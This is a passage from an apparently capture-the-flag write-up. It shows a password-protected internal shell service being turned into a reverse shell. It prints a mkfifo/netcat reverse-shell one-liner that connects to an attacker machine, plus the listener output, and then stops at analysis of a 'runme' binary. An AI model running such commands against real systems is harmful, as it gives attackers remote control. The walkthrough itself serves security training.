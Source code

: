 - Check out **Pentester Monkey's Reverse Shell cheatsheet**.

---

## Internal shell to Reverse shell

- Now by using `nc`, we can get a proper reverse shell:
- On the victim machine:

```bash
$ nc 10.10.151.249 4420
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.7.91 1234 >/tmp/f
```

- On the attacker machine:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.151.249] 34920
/bin/sh: 0: can't access tty; job control turned off
# ls
bin
etc
home
lib
lib64
opt
shell
tmp
usr
```

- Now, we can use `cd` command to look for interesting files.
- There was an binary named `runme`, but which required a different password:

```bash
# cd /home/catlover 
# ls
runme
# ./runme
Please enter yout password: sardinethecat
Access Denied
```

---

## Analyzing runme

